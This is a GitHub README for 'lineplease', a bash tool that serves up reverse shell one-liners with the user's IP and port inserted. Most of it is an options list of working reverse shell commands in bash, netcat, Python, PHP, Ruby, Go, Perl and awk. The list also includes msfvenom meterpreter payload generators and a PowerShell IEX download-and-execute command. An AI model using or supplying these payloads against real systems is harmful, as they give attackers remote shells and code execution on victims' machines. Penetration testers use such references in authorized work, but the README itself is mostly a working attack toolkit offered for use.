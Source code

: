 
                      __   _____  ______
                     / /  /  _/ |/ / __/
                    / /___/ //    / _/  
         ___  __   /____/___/_/|_/___/  
        / _ \/ /  / __/ _ | / __/ __/   
       / ___/ /__/ _// __ |_\ \/ _/     
      /_/  /____/___/_/ |_/___/___/  

"You thought your secrets were safe...you..ehmm...line please!!"

# lineplease

Lineplease is a helper script (bash) designed to simplify the process of grabbing reverse shell oneliners from the web<br>
and changing them to fit whatever need.
<br>
Started out as a simple personal tool to help my own lazy self but grew into a somewhat comprehensive list of lines<br>
easily served up on the command line.<br>
Most if not all creds goes to [PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) for the actual lines.<br>
<br>
Enjoy!
<br>
## installation
```git clone https://github.com/rub3rth/lineplease ```<br>
<br>
clipboard function requires xsel package<br>
```sudo apt-get install xsel```
# example usage
## for reverse shell line<br>
```./lineplease.sh [options] [interface] [port] ```<br><br>
example:<br>
```./lineplease.sh -b eth0 1337```<br>
<br>
ipv4-address on desired interface is inserted into line<br> 
for public ip specify interface as ```pub```<br><br>
when prompted:<br>
```y``` to copy line to clipboard (requires xsel) or any other key to continue <br>
```y``` to start netcat listener or any other key to exit<br>
## for msfvenom (requires msfvenom)<br>
```./lineplease.sh [options] [interface] [port] [name] ```<br><br>
example:<br>
```./lineplease.sh -m2 tun0 1337 rev```<br>
<br>
when prompted:<br> 	
```y``` to create file or any other key to exit<br>
## demo
![Demo](https://i.imgur.com/FNTWSY6.gif)
## options
``` 
-h 		display this page
example:	./lineplease.sh -h

OPTIONS		-----------------------------------

BASH
-b      	bash -i >& /dev/tcp/[ip]/[port] 0>&1
-be		0<&196;exec 196<>/dev/tcp/[ip]/[port]; sh <&196 >&196 2>&196
-bc     	bash -c 'bash -i >& /dev/tcp/[ip]/[port] 0>&1'

NETCAT
-n      	nc -e /bin/bash [ip] [port]
-ns		nc -e /bin/sh [ip] [port]
-nc		nc -c bash [ip] [port]

PYTHON
-py1		export RHOST="[ip]";export RPORT=[port];python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
-py2		python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip]",[port]));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 						

PHP
-p1		php -r '$sock=fsockopen("[ip]",[port]);exec("/bin/sh -i <&3 >&3 2>&3");'
-p2		php -r '$sock=fsockopen("[ip]",[port]);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
-p3		php -r '$sock=fsockopen("[ip]",[port]);`/bin/sh -i <&3 >&3 2>&3`;'
-p4		php -r '$sock=fsockopen("[ip]",[port]);system("/bin/sh -i <&3 >&3 2>&3");'
-p5		php -r '$sock=fsockopen("[ip]",[port]);passthru("/bin/sh -i <&3 >&3 2>&3");'
-p6		php -r '$sock=fsockopen("[ip]",[port]);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
-p7		php -r '$sock=fsockopen("[ip]",[port]);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

RUBY
-r		ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
-rw		ruby -rsocket -e 'c=TCPSocket.new("[ip]","[port]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'	(windows only)

GOLANG
-g		echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","[ip]:[port]");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

PERL
-pe		perl -e 'use Socket;$i="[ip]";$p=[port];socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
-pe2		perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'			
-pw		perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"[ip]:[port]");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'	(windows only)

AWK
-a		awk 'BEGIN {s = "/inet/tcp/0/[ip]/[port]"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

POWERSHELL
-ps1            too long and messy to print out here
-ps2            same goes for this one

MSFVENOM UNSTAGED
-m1 		msfvenom -p windows/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2		msfvenom -p linux/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-m3     	msfvenom -p osx/x86/shell_reverse_tcp LHOST=[ip] LPORT=[port] -f macho > [name].macho
-m4		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].jsp
-m5		msfvenom -p java/jsp_shell_reverse_tcp LHOST=[ip] LPORT=[port] -f war > [name].war
-m6		msfvenom -p cmd/unix/reverse_python LHOST=[ip] LPORT=[port] -f raw > [name].py
-m7		msfvenom -p cmd/unix/reverse_bash LHOST=[ip] LPORT=[port] -f raw > [name].sh
-m8		msfvenom -p cmd/unix/reverse_perl LHOST=[ip] LPORT=[port] -f raw > [name].pl

MSFVENOM STAGED
-m1s    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f exe > [name].exe
-m2s    	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f elf > [name].elf
-mas    	msfvenom -p windows/meterpreter/reverse_tcp LHOST=[ip] LPORT=[port] -f asp > [name].asp
-mps		msfvenom -p php/meterpreter_reverse_tcp LHOST=[ip] LPORT=[port] -f raw > [name].php; cat [name].php | xsel --clipboard --input && echo '<?php ' | tr -d '\n' > [name].php && xsel --clipboard --output >> [name].php
                (requires xsel)

LAZY OPTIONS
-pl2		python -c 'import pty; pty.spawn("/bin/bash")'
-pl3 		python3 -c 'import pty; pty.spawn("/bin/bash")'

		loads up line for python shell upgrade

		usage:		./lineplease.sh -pu2
                when prompted:  y to copy to clipboard (requires xsel)/any other key to exit

-psd		powershell "IEX(New-Object Net.WebClient).downloadString('http://[ip]:[port]/[filename]')"

		loads up a powershell command to download the file linpeas.sh from ip address of eth0

		usage:		./lineplease.sh -psd [interface] [port] [filename]
		example:	./lineplease.sh -psd eth0 1337 linpeas.sh
		when prompted:	y to copy to clipboard (requires xsel)/any other key to continue
		when prompted:	y to start web server in current directory/any other key to exit 
```



